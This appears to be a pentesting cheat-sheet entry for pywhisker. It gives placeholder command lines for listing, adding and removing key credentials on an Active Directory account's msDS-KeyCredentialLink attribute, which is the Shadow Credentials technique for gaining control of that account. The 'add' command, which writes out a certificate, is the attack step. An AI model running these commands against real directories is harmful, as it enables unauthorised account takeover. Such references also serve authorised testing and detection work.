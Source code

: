 ### Source
https://github.com/ShutdownRepo/pywhisker

### List entries of msDS-KeyCredentialLink attribute
```
python3 pywhisker.py -d "<domain>" -u "<user>" -p "<password>" --target "<targetAccount>" --action "list"
```

### Add credential to the target object and write resulting certificate to file
```
python3 pywhisker.py -d "<domain>" -u "<user>" -p "<password>" --target "<targetAccount>" --action "add" --filename <outFile>
```

### Remove key credential by a DeviceID GUID
```
python3 pywhisker.py -d "<domain>" -u "<user>" -p "<password>" --target "<targetAccount>" --action "remove" --device-id <id>
```

